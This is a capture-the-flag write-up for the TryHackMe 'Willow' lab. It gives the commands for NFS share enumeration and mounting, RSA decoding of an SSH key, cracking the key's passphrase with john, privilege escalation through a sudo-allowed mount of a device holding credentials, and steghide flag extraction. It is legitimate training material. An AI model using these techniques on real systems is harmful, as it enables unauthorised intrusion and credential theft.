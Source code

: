 ```yaml
---
layout: default
title : Willow - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 08, 2020**_

[Willow](https://tryhackme.com/room/willow) Writeup

## Nmap Scan :

```
bvr0n@kali:~/CTF/THM/Willow$ nmap -sC -sV 10.10.58.196
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 43:b0:87:cd:e5:54:09:b1:c1:1e:78:65:d9:78:5e:1e (DSA)
|   2048 c2:65:91:c8:38:c9:cc:c7:f9:09:20:61:e5:54:bd:cf (RSA)
|   256 bf:3e:4b:3d:78:b6:79:41:f4:7d:90:63:5e:fb:2a:40 (ECDSA)
|_  256 2c:c8:87:4a:d8:f6:4c:c3:03:8d:4c:09:22:83:66:64 (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Recovery Page
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      33045/udp   mountd
|   100005  1,2,3      50247/tcp   mountd
|   100005  1,2,3      53104/udp6  mountd
|   100005  1,2,3      58466/tcp6  mountd
|   100021  1,3,4      35887/udp6  nlockmgr
|   100021  1,3,4      36539/tcp   nlockmgr
|   100021  1,3,4      45263/tcp6  nlockmgr
|   100021  1,3,4      45612/udp   nlockmgr
|   100024  1          42988/tcp   status
|   100024  1          47886/tcp6  status
|   100024  1          53120/udp6  status
|   100024  1          57397/udp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp open  nfs_acl 2-3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## RPC Enum :

```
bvr0n@kali:~/CTF/THM/Willow$ sudo showmount -e 10.10.58.196
[sudo] password for bvr0n: 
Export list for 10.10.58.196:
/var/failsafe *
```
```
bvr0n@kali:~/CTF/THM/Willow$ sudo mount -t nfs 10.10.170.153:/var/failsafe /mnt/ewf/ -nolock
bvr0n@kali:/mnt/ewf$ cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
```

## Web Enum :

After visiting the web page we can see a lot of encoded numbers, When we throw it all in [CyberChef](https://gchq.github.io/CyberChef/) we get this :
```
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
```

Now the shared folder make sens, it's a private key, let's get it!! i grabbed all the numbers after the message we retireved and head here [RSA Calculator](https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html) :

The modulus `N` was `37627` & The modulus d was `61527` (from the shared folder).

After grabbing the `RSA_Private_KEY`, now all we need is the password ! CRACKING TIME.

```
bvr0n@kali:~/CTF/THM/Willow$ /usr/share/john/ssh2john.py id_rsa > priv_rsa
bvr0n@kali:~/CTF/THM/Willow$ sudo john priv_rsa --wordlist=/home/bvr0n/Documents/rockyou.txt
[sudo] password for bvr0n: 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
**********       (id_rsa)
```

And we got the password for SSH, Let's login as `Willow`.

In the home directory there is a image that contains the flag, Let's get it :
```
willow@willow-tree:~$ cat user.jpg | base64
bvr0n@kali:~/CTF/THM/Willow$ cat b64_image | base64 -d > user.jpg
```
I took the original image and turn it into `base64`, then i created a new file and put it inside and decrypt it.

## Internal Enum :

Looks like we can mount as root without a password :
```
willow@willow-tree:/mnt/creds$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
```
I checked the `/dev`, this is where filesystems show up, i noticed a pretty weird one :

```
willow@willow-tree:/dev$ ls
autofs           dri            kmsg                null    shm       
block            fb0            log                 port    snapshot  
btrfs-control    fd             loop-control        ppp     snd       
char             full           mapper              psaux   stderr    
console          fuse           mcelog              ptmx    stdin     
core             ******_******  mem                 p
```
```
willow@willow-tree:/mnt$ sudo mount /dev/******_****** /mnt/creds/
willow@willow-tree:/mnt$ cd /mnt/creds/
willow@willow-tree:/mnt/creds$ cat creds.txt 
root:7QvbvB********
willow:U0ZZJL********
```

And we got ROOT.

For the root flag, i struggled at first but apparently it was inside the image we retireved earlier -_-
```
bvr0n@kali:~/CTF/THM/Willow$ steghide extract -sf user.jpg 
Enter passphrase: 
wrote extracted data to "root.txt".
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](../../index.md)

<br>
